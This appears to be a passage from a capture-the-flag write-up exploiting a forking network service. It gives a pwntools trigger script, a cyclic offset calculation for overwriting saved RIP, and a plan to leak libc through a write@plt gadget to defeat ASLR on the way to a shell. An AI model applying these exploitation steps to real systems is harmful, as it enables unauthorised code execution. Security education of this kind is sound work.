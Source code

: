 ```py
    # A single io.sendline(b'') will trigger the memcpy()

    return io

io1 = getremote(16)  # This remote has a small stack

io2 = getremote(100)
io1.sendlineafter(b'>', b'')  # This will trigger the bug
```

I will now run this script while having run the server in gdb. I will attach gdb to the first child that is created as this is the connection that will have the buffer overflow. I am just attacking with a cyclic pattern, so it should segfault when it tries to go to the saved RIP that we have overwritten. I can use the address it tries to go back to to calculate the saved rip's offset from our buffer.

In this case I can see that it tried to return to the address `0x616161706161616f`. I am using the cyclic tool from pwntools, so I can recover the offset:

```bash
$ cyclic -l 0x616161706161616f
56
```

Now that we have the offset we can set the track in io2 to be 56*'A' and then insert our ROP chain.

## Leaking libc

After gaining RIP control I noticed that we have almost no useful ROP gadgets.

We want to be able to build a ROP gadget or something similar. I want to pop a shell on the remote. The problem is that we cannot just run a `system("/bin/sh")` as you would normally do. This is due to the fact that the stdin, stderr and stdout streams are not forwarded to our TCP connection.

Since the program is dynamically linked, we will need to circumvent ASLR by leaking addresses. We will want to see if we can leak a libc address, and use that known address to calculate the base libc address.

A neat property of this challenge is that since all process children have the same memory layout, we can leak libc in any of them, and we will know the libc address in all subsequent connections.

This means that we can go crazy and make the program segfault, as it will only be a child that segfaults. So let's look for any places in the code we can jump to to dump a known address from libc.

After some looking around, I found these instructions in `go_vroom_vroom()`:

```asm
Dump of assembler code for function go_vroom_vroom:
[TRUNCATED]
  0x0000000000401541 <+256>: mov    rax,QWORD PTR [rip+0x2ba8]        # 0x4040f0 <car>
  0x0000000000401548 <+263>: movzx  eax,WORD PTR [rax]
  0x000000000040154b <+266>: movzx  edx,ax
  0x000000000040154e <+269>: mov    eax,DWORD PTR [rip+0x2ba4]        # 0x4040f8 <client_fd>
  0x0000000000401554 <+275>: mov    rcx,QWORD PTR [rbp-0x8]
  0x0000000000401558 <+279>: mov    rsi,rcx
  0x000000000040155b <+282>: mov    edi,eax
  0x000000000040155d <+284>: call   0x401170 <write@plt>
[TRUNCATED]
```
